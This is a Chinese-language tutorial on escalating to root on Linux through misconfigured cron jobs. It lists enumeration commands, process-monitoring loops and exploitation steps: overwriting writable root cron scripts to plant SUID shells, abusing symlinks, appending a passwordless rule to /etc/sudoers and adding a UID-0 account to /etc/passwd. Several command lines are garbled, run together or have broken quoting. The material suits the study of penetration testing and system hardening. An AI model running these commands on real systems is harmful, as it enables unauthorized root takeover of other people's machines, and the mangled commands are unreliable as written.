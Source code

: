 具有特权的运行脚本，其他用户可以编辑该脚本。
查找特权用户拥有但可写的任何内容：
Default
crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/croncat /etc/croncat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root
查看其他用户的crontab
Default
$ crontab -u tstark -l0 0  / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在cron日志中看到详细信息，可能包含用户名。
例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：
Default
8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

使用pspy工具（32位为pspy32，64位为pspy64）。
下载链接：https://github.com/DominicBreuker/pspy
利用配置错误的cronjob获得root访问权限
$ ls -la /etc/cron.d –输出cron.d中已经存在的cronjob
find / -perm -2 -type f 2> / dev / null –输出可写文件
ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认cron-logrotate.sh是否可写。

我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。

那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。
我们在/ tmp目录中编写一个C文件并进行编译。
rootme可执行文件将生成一个shell。
Default
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的
 
$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。

Cron脚本覆盖和符号链接

如果可以修改由root执行的cron脚本，则可以非常轻松地获取shell：
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行
/ tmp / bash -p
如果root用户执行的脚本使用具有完全访问权限的目录，则删除该文件夹并创建一个符号链接文件夹到另一个服务于您控制的脚本的文件夹可能会很有用。
ln -d -s < / PATH / TO / POINT > < / PATH / CREATE / FOLDER >

定时任务

可以监视进程以搜索每1,2或5分钟执行的进程。可以利用它并提升特权。
例如，要在1分钟内每隔0.1s监视一次，按执行次数较少的命令排序并删除一直执行的命令，可以执行以下操作：
Default
for i in $(seq 1 610); do ps -e —format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v “[“ | sed ‘/^.{200}./d’ | sort | grep -E -v “\s[6-9][0-9][0-9]|\s[0-9][0-9][0-9][0-9]”; rm /tmp/monprocs.tmp;

总结

由于Cron在执行时以root身份运行/etc/crontab，因此crontab调用的任何命令或脚本也将以root身份运行。当Cron执行的脚本可由非特权用户编辑时，那些非特权用户可以通过编辑此脚本并等待Cron以root特权执行该脚本来提升其特权！
例如，假设下面的行在中/etc/crontab。每天晚上9：30，Cron运行maintenance.shshell脚本。该脚本在root特权下运行。
30 21 * root /path/to/maintenance.sh
现在让我们说该maintenance.sh脚本还可以由所有人编辑，而不仅仅是root用户。在这种情况下，任何人都可以将命令添加到maintenance.sh，并使该命令由root用户执行！
这使得特权升级变得微不足道。例如，攻击者可以通过将自己添加为Sudoer来向自己授予超级用户特权。
echo “vickie ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
或者，他们可以通过将新的root用户添加到“ / etc / passwd”文件来获得root访问权限。由于“ 0”是root用户的UID，因此添加UID为“ 0”的用户将为该用户提供root特权。该用户的用户名为“ vickie”，密码为空：
Default
echo “vickie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
例子参考
Default
https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247490385&idx=1&sn=6a14357933f8024e60b0804fb2674908&scene=21#wechat_redirect
